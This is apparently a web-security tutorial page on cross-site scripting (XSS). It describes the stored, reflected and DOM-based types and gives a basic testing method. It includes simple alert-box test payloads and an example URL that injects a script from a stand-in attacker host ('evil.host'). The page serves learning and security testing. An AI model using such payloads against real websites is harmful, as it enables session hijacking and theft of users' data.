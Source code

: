 # Cross-site scripting

Cross-site scripting \(XSS\) allows attackers to inject malicious scripts into a webpage, targeting users who load that page. It's usually caused by insufficient input validation and improper encoding of user input that is displayed on web pages. Using XSS, attackers can achieve the following:

* Hijack accounts and sessions
* Steal sensitive information
* Modify page content and deface websites
* Redirect users to another webpage
* Record keystrokes
* Redirect to websites that exploit browser vulnerabilities
* Trick users into downloading files or entering information \(e.g. via phishing\)

## Types of XSS

### **Persistent or stored**

The malicious script is stored in the database and displayed to any users who load a page containing the script. An example of this is an attacker exploiting vulnerable blog commenting to post a malicious script as a comment which is then displayed to any other user who loads the page. 

### **Reflected**

The malicious script is part of the user's request to the website and is reflected back at them as part of the response. An example would be a user clicking an email link with a malicious script in one of the parameters. The script is run against the same user when the page loads and sends their session data to the attacker's server.

### **DOM-based**

Not gonna lie, these are tricky to understand. DOM-based XSS occurs when a web application writes unsanitized data to the [Document Object Model \(DOM\)](https://css-tricks.com/dom/). When a client-side script is executed, it can use the DOM of the HTML page where the script runs to access various properties and change them. Common objects used in DOM-based XSS include `document.url` , `document.location` and `document.referrer`. 

## Basic technique

The basic technique is to put a test script in any form input field and see if it pops an alert box. You may want to try a few variations to test for badly-implemented input sanitization:

```text
<script>alert("hello");</script> 
<script>alert(123);</script>
<ScRipT>alert("XSS");</ScRipT>
<script>alert(123)</script>
```

JavaScript can also be injected through a URL, which an unsuspecting person might click in an email:

```text
https://example.com/test.php?val=<script src="http://evil.host/evil.js"></script>
```

You can find all kinds of XSS vulnerabilities, including DOM-based, by manually walking through the application with your browser and modifying each URL parameter to contain a standard test string. 

## Further reading

* [XSS payloads](https://github.com/pgaijin66/XSS-Payloads/blob/master/payload.txt)
* [5 practical scenarios for XSS attacks](https://pentest-tools.com/blog/xss-attacks-practical-scenarios/)
* [Using Burp Scanner to find XSS issues](https://support.portswigger.net/customer/portal/articles/1965737-using-burp-scanner-to-find-cross-site-scripting-xss-issues)
* [PortSwigger: Testing for DOM-based XSS](https://portswigger.net/web-security/cross-site-scripting/dom-based)
* [DOM XSS explained](https://www.acunetix.com/blog/articles/dom-xss-explained/)

